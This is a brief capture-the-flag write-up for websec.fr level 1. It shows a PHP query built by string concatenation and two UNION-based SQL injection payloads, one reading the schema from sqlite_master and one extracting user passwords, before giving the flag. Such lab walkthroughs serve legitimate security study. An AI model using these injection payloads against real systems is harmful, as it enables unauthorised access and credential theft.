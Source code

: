 Level 1
===
1. First, lets check what is written in http://websec.fr/level01/source.php
2. Then we can find that there is no keywords that would be filter, so we could skip most of them and find : 
```
"$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';"
```
3. If we filled in the blank on the website, we would find out : 
```
"$query = ‘SELECT id,username FROM users WHERE id=’ . 1 . ’ LIMIT 1’;"
```
4. We first check out what kinds of tables is there in the database using the command :
```
1 UNION SELECT 1, sql FROM sqlite_master WHERE tbl_name='users'--
```
5. Okay! Then we are able to use the strong command "UNION" to get what we need ~~~
```
1 union select 1,password from users where id=1
```
6. There is the flag : WEBSEC{Simple_SQLite_Injection}
